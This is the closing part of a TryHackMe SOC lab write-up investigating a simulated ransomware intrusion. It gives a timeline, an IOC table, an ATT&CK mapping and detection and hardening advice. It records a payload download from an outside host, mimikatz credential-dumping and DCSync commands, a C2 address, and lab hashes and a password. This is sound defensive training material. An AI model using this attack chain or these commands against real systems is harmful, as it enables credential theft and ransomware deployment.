Aug 30 01:49:01  Invoke-Command hostname recon against WKSTN-1327, WKSTN-0051 from DC01
Aug 30 01:53:13  iwr downloads ransomboogey.exe from http://ff.sillytechninja.io/ransomboogey.exe
Aug 30 01:53:33  ransomboogey.exe executed from C:\Users\Administrator\
```


## IOC Summary Table

| Type | Value | Context |
|------|-------|---------|
| File | `ProjectFinancialSummary_Q3.pdf` (ISO) | Phishing attachment, disc image delivery container |
| File | `ProjectFinancialSummary_Q3.pdf.hta` | Stage 1 payload, HTML Application masquerading as PDF |
| File | `D:\review.dat` | Malicious DLL inside ISO, executed via rundll32 |
| File | `C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat` | review.dat staged to Temp for persistence |
| File | `C:\Windows\Temp\m\x64\mimikatz.exe` | Credential dumping tool, dropped by PID 6160 |
| File | `mimi.zip` | Mimikatz archive downloaded from GitHub |
| File | `ransomboogey.exe` | Ransomware binary, executed on DC01 |
| Path | `HKCU\Software\Microsoft\Windows Update` (value: `Update`) | Registry key storing base64-encoded second-stage payload |
| Scheduled Task | `Review` | Persistence mechanism, executes review.dat daily at 06:00 |
| IP Address | `165.232.170.151` | C2 server, port 80, 5-second beacon interval |
| IP Address | `185.199.108-111.133` | GitHub CDN, resolved for mimikatz download |
| Domain | `bananapeelparty.net` | Secondary C2 domain, referenced in decoded PowerShell stager |
| URL | `https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip` | Mimikatz download source |
| URL | `http://ff.sillytechninja.io/ransomboogey.exe` | Ransomware binary download source |
| Account | `evan.hutchinson` | Initial victim, CEO of Quick Logistics LLC |
| Account | `itadmin` | Dumped from WKSTN-0051 LSASS |
| Account | `QUICKLOGISTICS\allan.smith` | Discovered in IT_Automation.ps1 plaintext |
| Account | `administrator` | Dumped from WKSTN-1327 LSASS |
| Account | `backupda` | Dumped via DCSync on DC01 |
| Hash (NTLM) | `F84769D250EB95EB2D7D8B4A1C5613F2` | itadmin NTLM hash |
| Hash (NTLM) | `00f80f2538dcb54e7adc715c0e7091ec` | administrator NTLM hash |
| Password | `Tr!ckyP@ssw0rd987` | allan.smith plaintext, found in IT_Automation.ps1 |
| Host | `WKSTN-0051.quicklogistics.org` | Primary victim workstation (Evan Hutchinson) |
| Host | `WKSTN-1327.quicklogistics.org` | Second compromised workstation |
| Host | `DC01.quicklogistics.org` | Domain Controller, final target |


## MITRE ATT&CK Mapping

| Technique ID | Name | Observed Behavior |
|---|---|---|
| T1566.001 | Phishing: Spearphishing Attachment | ISO attachment delivered via internal compromised email account |
| T1204.002 | User Execution: Malicious File | CEO manually executed the HTA payload |
| T1218.005 | System Binary Proxy Execution: Mshta | HTA executed via mshta.exe |
| T1553.005 | Subvert Trust Controls: Mark-of-the-Web Bypass | ISO container bypasses MOTW zone identifier |
| T1105 | Ingress Tool Transfer | xcopy.exe used to stage review.dat from ISO to Temp |
| T1218.011 | System Binary Proxy Execution: Rundll32 | review.dat DLL executed via rundll32 DllRegisterServer |
| T1053.005 | Scheduled Task/Job: Scheduled Task | "Review" task created for daily persistence at 06:00 |
| T1071.001 | Application Layer Protocol: Web Protocols | C2 beacon over HTTP port 80 |
| T1055 | Process Injection | Second rundll32 instance spawned to separate loader from implant |
| T1548.002 | Abuse Elevation Control Mechanism: Bypass UAC | fodhelper.exe registry hijack for UAC bypass |
| T1112 | Modify Registry | Base64 payload stored in HKCU Windows Update registry key |
| T1059.001 | Command and Scripting Interpreter: PowerShell | Fileless stager execution via -enc, AMSI bypass, ETW disable |
| T1027 | Obfuscated Files or Information | Base64-encoded payloads in registry and command line |
| T1562.001 | Impair Defenses: Disable or Modify Tools | AMSI and ETW disabled via PowerShell reflection |
| T1046 | Network Service Discovery | net.exe localgroup administrators, whoami /groups |
| T1557 | Adversary-in-the-Middle | N/A (enumeration via net.exe) |
| T1003.001 | OS Credential Dumping: LSASS Memory | mimikatz sekurlsa::logonpasswords on WKSTN-0051 and WKSTN-1327 |
| T1550.002 | Use Alternate Authentication Material: Pass the Hash | sekurlsa::pth for itadmin and administrator lateral movement |
| T1039 | Data from Network Shared Drive | IT_Automation.ps1 read from \\WKSTN-1327\ITFiles |
| T1021.006 | Remote Services: Windows Remote Management | Invoke-Command / wsmprovhost.exe lateral movement to WKSTN-1327 |
| T1003.006 | OS Credential Dumping: DCSync | lsadump::dcsync against backupda and administrator on DC01 |
| T1570 | Lateral Tool Transfer | Mimikatz re-downloaded on each compromised host |
| T1486 | Data Encrypted for Impact | ransomboogey.exe executed as final stage |


## SOC Implications

Reading the alert queue for this incident required treating the initial phishing report not as a simple user complaint but as a potential entry point for a deeper chain. The reported email arrived from an internal address, which is a pattern that often causes analysts to deprioritize tickets, since internal senders are assumed legitimate. In this case that assumption would have been fatal. The sender account `allie.sierra@quicklogistics.org` was itself compromised, and the Boogeyman group specifically chose it to increase the probability of the CEO opening the attachment. A phishing report from a senior executive involving an internal sender should always trigger workstation triage as a first response, regardless of whether the executive believes anything happened.

The investigation demonstrated the value of anchoring on a known artifact and threading forward rather than jumping between question contexts. Every phase of this attack was reachable from the initial `mshta.exe` event by following parent-child process relationships through Sysmon Event ID 1, supplemented by Event ID 3 for network activity and Event ID 22 for DNS. The mimikatz download, for example, was not immediately visible in process creation logs because PowerShell executed `Invoke-WebRequest` natively within PID 6160 without spawning a child process. Pivoting to Event ID 11 (file creation) and then to Event ID 4104 (script block logging) recovered the full picture. No single log source told the complete story, but each source filled a specific gap, and the analyst's job was to know which source answered which question.

Several detection gaps are worth noting for IR recommendations. The ISO delivery method bypassed MOTW, which means traditional attachment scanning and SmartScreen offered no protection here. An effective countermeasure is to configure Windows to apply MOTW to all files extracted from ISO and VHD containers, a policy Microsoft enabled by default in Windows 11 22H2. For environments still running Windows 10, enforcing this via Group Policy is a high-priority hardening action. Additionally, the AMSI and ETW disablement in the PowerShell stager succeeded because there were no controls preventing reflective modification of in-memory .NET structures. Constrained Language Mode for PowerShell and application control policies would significantly raise the cost of this technique. The presence of plaintext credentials in `IT_Automation.ps1` on a network share accessible by non-privileged users represents a fundamental secrets management failure that enabled the lateral movement from WKSTN-0051 to WKSTN-1327 without any further exploitation.

The highest-severity finding in this investigation was the DCSync attack against DC01. DCSync does not require code execution on the Domain Controller and does not trigger a logon event on the DC itself, making it invisible to many traditional monitoring configurations. The only reliable detection is via Windows Event ID 4662 (directory service object access with specific GUIDs for `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`), or via network-level detection of unexpected replication traffic originating from non-DC hosts. The `backupda` account dump is particularly concerning: if that account's hash was cracked or reused, the attacker would retain domain access even after an incident response that reset the primary administrator credentials. In a real engagement, the IR recommendation would be to disable `backupda` immediately, reset all domain admin credentials, and conduct a full golden ticket assessment before declaring containment.

---

*TryHackMe - SOC Level 1 Capstone Challenges | Boogeyman 3: The Chaos Inside*